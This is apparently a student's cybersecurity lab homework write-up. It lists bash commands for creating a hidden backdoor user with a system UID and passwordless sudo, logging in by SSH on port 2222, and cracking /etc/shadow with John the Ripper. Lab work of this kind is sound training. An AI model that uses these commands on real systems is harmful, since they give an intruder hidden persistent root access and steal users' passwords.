


## Week 6 Homework: Advanced Bash - Owning the System
### Step 1: Shadow People
1. Create a secret user named sysd. Make sure this user doesn't have a home folder created:
* `adduser --no-create-home sysd`
2. Give your secret user a password:
* `sudo passwd sysd`
3. Give your secret user a system UID < 1000:
* `sudo usermod -u 200 sysd`
4. Give your secret user the same GID:
* `sudo groupmod -g 200 sysd`
5. Give your secret user full sudo access without the need for a password:
* `sudo visudo`
* #privilege specification
* `Sysd ALL=(ALL:ALL) NOPASSWD:ALL`
6. Test that sudo access works without your password:
* `sudo -l`
* `sudo su`

### Step 2: Smooth Sailing
1. Edit the sshd_config file:

### Step 3: Testing Your Configuration Update
1. Restart the SSH service:
* `systemctl restart ssh.service`
2. Exit the root account:
* `exit`
3. SSH to the target machine using your sysd account and port 2222:
* `ssh sysd@192.168.6.105 -p 2222`
4. Use sudo to switch to the root user:
* `sudo su`

### Step 4: Crack All the Passwords
1. SSH back to the system using your sysd account and port 2222:
* `ssh sysd@192.168.6.105 -p 2222`
2. Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:
* `sudo su`
* `john /etc/shadow`

